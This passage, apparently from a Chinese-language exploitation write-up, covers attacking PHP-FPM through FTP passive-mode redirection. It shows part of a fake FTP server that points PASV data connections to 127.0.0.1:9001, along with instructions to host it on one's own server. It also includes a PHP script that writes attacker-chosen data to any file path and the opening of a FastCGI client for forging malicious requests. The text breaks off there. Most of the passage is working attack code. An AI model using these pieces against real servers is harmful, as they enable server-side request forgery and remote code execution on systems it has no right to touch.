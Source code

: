 ```python
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

上传到自己的VPN上，并打开ftp。

#####  上传文件处理

再写一个接收文件的file.php文件，这个文件用于接收恶意的fastcgi请求文件并写回主机

```php
<?php
    $file = $_GET['file'] ?? '/tmp/file';
    $data = $_GET['data'] ?? ':)';
    echo($file."</br>".$data."</br>");
    var_dump(file_put_contents($file, $data));
?>

```



##### 伪造恶意FastCGI请求

网上亘古不变的伪造请求的代码，修改几个配置、路径就好

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
```